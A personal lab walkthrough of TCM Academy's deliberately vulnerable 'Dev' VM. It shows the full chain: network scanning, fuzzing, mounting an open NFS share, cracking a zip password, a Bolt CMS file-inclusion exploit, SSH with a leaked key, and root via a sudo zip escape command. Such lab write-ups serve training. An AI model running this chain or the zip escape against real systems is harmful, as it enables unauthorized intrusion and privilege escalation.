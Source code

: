 ## Welcome to my Ethical Hacking walk throughs
[Link](posts.html)



Machine 1
Dev by TCM Academy

This is my first write up

This Vulnerable by design VM is provided by TCM Acamdemy as part of the Practical Ethical Hacking - The Complete Course

I had to change Network cards to NAT, also for some reason this VM was dual honed, however, this is not relevant for this VM. 

Nnce VM booted, I had to log in and run (creds are provided in a text file byt TCM)
```markdown
DHClient
```


Then run Netdiscover to get target IP, for me.
```markdown
sudo netdiscover -r 192.168.22.0/24
```
I find our target VM
192.168.22.136
Next step is to run NMAP
```markdown
sudo nmap -A -p- -T4 192.168.22.136
```

![image](https://user-images.githubusercontent.com/66864342/160243024-f237bfba-81e5-4266-8bd8-12e3805577fa.png)
![image](https://user-images.githubusercontent.com/66864342/160243035-fb8b2c2a-664a-43e4-8244-7aba436d9488.png)

Interesting ports and info
- 22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- 80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
- _http-server-header: Apache/2.4.38 (Debian)
- _http-title: Bolt - Installation error
- 111/tcp   open  rpcbind  2-4 (RPC #100000)
- 2049/tcp  open  nfs_acl  3 (RPC #100227)
- 8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
-	_http-server-header: Apache/2.4.38 (Debian)
-	_Methods supported:CONNECTION
-	_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
- Running Linux 4.X 5.X
- OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
- OS details: Linux 4.15 - 5.6
- Network Distance: 1 hop
- Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel!

Browse to port http://192.168.22.136:80
Default webpage bolt installation error?

![image](https://user-images.githubusercontent.com/66864342/160243232-38f450e6-66ee-4140-946f-4cf00e9c9f08.png)


Browse to http://192.168.22.136:8080
Discovered PHP settings


![image](https://user-images.githubusercontent.com/66864342/160243472-26a386e7-8ee1-4766-9c42-a8b12c983547.png)


Then I ran FFUF to parse web folders in two tabs
```markdown
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.22.136/FUZZ
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.22.136:8080/FUZZ
```

So then I checked NFS
```markdown
Showmount -e 192.168.22.136 for nfs
```

mkdir in mnt i called it nfs
```markdown
cd mnt
mkdir nfs
sudo mount -t nfs 192.168.22.136:/srv/nfs /mnt/nfs -o nolock
```

In nfs folder I found a file called save.zip


![image](https://user-images.githubusercontent.com/66864342/160244210-cb28624a-b755-4284-8f4d-2ebd4efa4ec8.png)


However the file is password protected. so I tried fcrack!
```markdown
Fcrack -v -u -D -p /usr/share/wordlists/rockyou.txt
```

info
-v=verbose -u=unzip -D=dictionary -p=file


password is java101

I extract 2 files

![image](https://user-images.githubusercontent.com/66864342/160245066-0cf3a05e-29cc-4093-b373-11ca7aaca0b5.png)


Ok so then I cat both files

![image](https://user-images.githubusercontent.com/66864342/160245036-adf5e998-18cb-40ca-a990-ea3f22476fa8.png)

the id_rsa is a certificate file


I discovered the following web folders


![image](https://user-images.githubusercontent.com/66864342/160243845-7911f7ae-a700-4cbd-991a-4e48fd81a3cb.png)


Opened config.yaml and we Find a username & password


![image](https://user-images.githubusercontent.com/66864342/160244148-5dcb3f37-b215-47f1-9b77-6e9fafc0847c.png)



I wnet back to port 80 and see what bolt is...
After Googling, it seems to be a CMS, I also find an exploit for a local file inclusion
https://www.exploit-db.com/exploits/48411


![image](https://user-images.githubusercontent.com/66864342/160244458-e91cdcf8-2f4c-4af6-a7f5-ccf99d837cba.png)

Run the exploit after registering an account

![image](https://user-images.githubusercontent.com/66864342/160244777-797f3760-e6d2-49ec-8f19-708e976adc1a.png)



![image](https://user-images.githubusercontent.com/66864342/160244472-ad6caaa5-1ec9-4a8f-8411-53bf70e56edf.png)


The one of interest to me is the user 1000 permission futher down the list

jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash


![image](https://user-images.githubusercontent.com/66864342/160244492-f39e6c95-d357-4250-a950-21da05052723.png)

Ok so then I  tried logging in as jeanpaul with a password (this didnt work, so used SSH -i id_rsa - I also had to change permission on file to 400

```markdown
ssh -i id_rsa jeanpaul@192.168.22.136
```

```markdown
sudo -l
```
   (root) NOPASSWD: /usr/bin/zip
   
So the above means I can run zip as root

So goto GTFOBINS
https://gtfobins.github.io/

search for ZIP, and get the sudo one

type commands one line at a time
```markdown
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

![image](https://user-images.githubusercontent.com/66864342/160245568-96c1fe61-2516-4811-b792-0358998ad105.png)



BOOM JOB DONE!
Thanks to TCM Academy for the VM





